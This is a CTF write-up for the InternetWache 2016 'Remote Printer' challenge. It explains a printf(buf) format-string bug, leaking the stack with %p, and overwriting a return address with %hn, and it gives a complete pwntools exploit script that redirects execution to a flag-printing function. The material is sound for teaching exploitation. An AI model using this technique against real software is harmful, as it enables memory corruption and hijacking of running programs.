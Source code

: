 +++
author = "kbeckmann"
categories = [ "writeups" ]
date = "2016-02-21T00:36:12+01:00"
description = ""
title = "InternetWache 2016 Remote Printer (Exploit 80) Writeup"

+++

# Problem
> Description: Printer are very very important for offices. Especially for remote printing. My boss told me to build a tool for that task.

(exp80, solved by 125)

Attachment: exp80.zip

Service: 188.166.133.53:12377

# Solution

This one was a bit harder. We are provided with a binary that listens on a port for incoming connections. When it gets a connection it reads an ip address and a port from the socket and connects to it. From the new socket, it reads the received bytes into the stack and prints it using printf(buf). Big bug here.

The buffer has the correct size but it's printed using printf(buf) which is obviously wrong.

Solution is to do a classic printf exploit which can be quite hard if you've never done it before.

There is also an extra function that reads and prints the flag, let's call it `printflag`.

Our goal is to change the return address to `printflag`.

We start off by printing some stack values using `%p`. The pointers on the stack are constant even when running it multiple times, `0xffffbcec`. Good for us, no ASLR. We can use hard coded pointers/offsets into the stack.

Now we need to find where the return address is stored since we want to overwrite it. We can do this by using math or guessing/leaking data.

`printf` has a nice feature which lets you access the stack at a specific position. `printf("%3$d", 1, 2, 3);` will print `3`. Abusing this, we can print way further down the stack.

I started out with an educated guess:

~~~python
payload = ' '.join(('%' + str(i) + '$p') for i in range(2000, 2100))
~~~

This produces a format string that will print the contents of the stack at 2000*4 until 2100*4 bytes away from our current location.

Now we search the output and look for the return address. We know it is `0x08048776` because that's the location of the instruction after `call start_server` where we should return normally.

I found it at the 63rd print, which means the index is 2063. Using this we can calculate the address of the return address to `0xffffdd0c`. This is where we want to change bytes.

Now we just need to overwrite this value `<main+0xAB> @ 0x08048776` with `<printflag> @ 0x08048867`.


# Arbitrary write with printf

So how do we change bytes with printf? This is a fun challenge if you haven't done so before. There is an operation `%n` that will write the number of bytes printed to the memory where the current argument is pointing to.

It will write it as a 32 bit value which will overwrite the whole pointer, so we don't want that. By using `%hn` we only write a *half int* which is 16 bits. It will preserve the 16 highest bits of the value and overwrite the lowest 16 bits.

What about the value then? We can control the value that is written (number of bytes printed) by adding padding to a dummy print.

Since we are overwriting `0x08048776` with `0x08048867`, we only need to write `0x8776` as a 16 bit value. `printf` supports padding of basically any size! So we start off by printing a char with exactly 0x8776 bytes of padding. `%34919c` does the trick. Now we have printed 0x8776 characters, and this is the value that `%hn` will write.

We control the address where we want to write the value to by putting it into the buffer and refering to it. This part can be tricky and in this instance the offset was `11`. `%11$hn` will write the number of printed characters to the address that we put in our input string. We need to be careful and pad the input so the address appears at the correct location.

# Full exploit

~~~python
from pwn import *
#context.log_level = 0

'''
Want to change return address to 0x08048867 (printflag function)
It is normally pointing to main+0xAB == 0x08048776
0x08048776 =>
0x08048867
LSB = 0x8867
'''

binary = './RemotePrinter'
context(os = 'linux', arch = 'x86')
elf = ELF(binary)

HOST='188.166.133.53'
PORT=12377
PWNHOST='<your ip>'
PWNPORT=1024

# local
#PWNHOST='127.0.0.1'
#PWNPORT=1024


l = listen(bindaddr='*', port=PWNPORT)
if PWNHOST == '127.0.0.1':
    r = process(binary)
else:
    r = remote(HOST, PORT)
    r.sendline(PWNHOST)
    r.sendline(str(PWNPORT))

#gdb.attach(r)

c = l.wait_for_connection()

# got from leaking once
stack = 0xffffbcec # Pointer to the input string on the stack

payload = flat(
    flat(
        "%",            # Set number of printed bytes to
        str(0x8867),    # 16 LSB of the address to printflag
        "c%",
        str(11),        # Address is located at offset 11
        "$hn"           # "h" means half = 16 bits
        ).ljust(16),    # pad it so we can find the address below
    0xffffdd0c,         # This is accessed with $11%n
    "\n"
)

c.sendline(payload)

r.recvuntil('\n\n')
print r.recvuntil('}')

~~~


YAY, FLAG: **IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}**


# References

There's a [very well written paper](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf) from 2001 that explains everything you ever need to know about this.
